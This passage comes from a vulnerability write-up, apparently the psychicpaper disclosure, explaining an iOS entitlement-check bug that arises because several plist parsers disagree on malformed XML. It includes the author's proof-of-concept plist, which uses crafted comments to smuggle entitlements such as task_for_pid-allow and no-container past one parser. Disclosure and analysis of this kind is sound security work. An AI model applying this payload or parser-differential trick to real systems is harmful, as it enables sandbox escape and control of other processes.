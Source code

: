 ```cpp
    }

    entitlements->release();
    return value;
}
```

So we have a reference implementation for entitlement checks, and it's backed by `OSUnserializeXML`. Great! ...or is it?

A very interesting thing about this bug is that I couldn't point you at any particular piece of code and say "there's my bug". The reason for that is that, of course, iOS doesn't have just one, or two, or even three plist parsers, it has at least four! These are:

- `OSUnserializeXML` in the kernel
- `IOCFUnserialize` in [IOKitUser][iokituser]
- `CFPropertyListCreateWithData` in [CoreFoundation][cf]
- `xpc_create_from_plist` in libxpc (closed-source)

So the three interesting questions that arise from this are:

1. Which parsers are used to parse entitlements?
2. Which parser does `amfid` use?
3. And do all parsers return the same data?

The answer to 1) is "all of them", and to 2) `CFPropertyListCreateWithData`. And as a few folks on Twitter already figured out after my tweet, the answer to 3) is obviously "lolnope". Because it's very hard to parse XML correctly, _valid_ XML makes all parsers return the same data, but slightly _invalid_ XML makes them return just slightly _not_ the same data. :D  
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning _design flaw_.

Before we move on to exploiting this, I would like to note that in all my tests, `OSUnserializeXML` and `IOCFUnserialize` always returned the same data, so for the rest of this post I will consider them as equivalent. For brevity, I will also be dubbing `OSUnserializeXML`/`IOCFUnserialize` "IOKit", `CFPropertyListCreateWithData` "CF", and `xpc_create_from_plist` "XPC".

## 3. The exploit

Let's start with the variant of the PoC I tweeted out, which is perhaps the most elegant way of exploiting this bug: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <!-- these aren't the droids you're looking for -->
    <!---><!-->
    <key>platform-application</key>
    <true/>
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585
  [proxy]: https://github.com/Siguza/psychicpaper/blob/master/stuff/proxy.m